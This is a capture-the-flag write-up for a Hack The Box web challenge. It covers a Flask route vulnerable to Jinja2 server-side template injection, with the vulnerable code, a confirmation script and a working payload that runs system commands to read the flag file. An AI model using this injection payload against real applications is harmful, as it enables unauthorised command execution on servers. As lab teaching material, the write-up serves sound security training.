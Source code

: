 ![img](../../assets/banner.png)

<img src='../../assets/htb.png' style='zoom: 80%;' align=left /><font size='5'>Trial by Fire</font>


24<sup>th</sup> March 2025

Prepared By: makelaris

Challenge Author: makelaris

Difficulty: <font color='green'>Very Easy</font>


# Synopsis

Trial by Fire is a very easy web challenge. Players will utlise SSTI to gain RCE.

## Skills Required

- Knowledge of Python
- Knowledge of Jinja2

## Skills Learned

- Performing Server-Side Template Injection

# Solution

When we visit the site, we're greeted with a form that accepts the "warrior's" name.

![](./assets/preview.png)

Then we are greeted with a turn-based game. We can perform attacks and the dragon responds. 

![](./assets/game.png)

After the game ends, we have a statistics page showed.

![](./assets/results.png)

Looking at the source code, we find out that the `battle-report` is passing user input to the `render_template_string()` function, which is a clear indicator that the application is vulnerable to SSTI

```python
@web.route('/battle-report', methods=['POST'])
def battle_report():
    stats = {
        . . .
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'turns_survived': request.form.get('turns_survived', "0")
        . . .
    }

    REPORT_TEMPLATE = f"""
        . . .
        <p class="title">Battle Statistics</p>
        <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
        . . .
        <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
        . . .
    """

    return render_template_string(REPORT_TEMPLATE)
```

We can confirm the SSTI by running a payload like `{{ 7 * 7 }}`.
```python
import requests

BASE_URL = "http://127.0.0.1:1337"

payload = "{{ 7 * 7 }}"

response = requests.post(f"{BASE_URL}/battle-report", data={
    "damage_dealt": payload
})

print(response.text) # <p>🗡️ Damage Dealt: <span class="nes-text is-success">49</span></p>
```


Now using the payload below we can get system command execution from SSTI, and we get the flag!
```python
{{ url_for.__globals__.sys.modules.os.popen('cat flag.txt').read() }}
```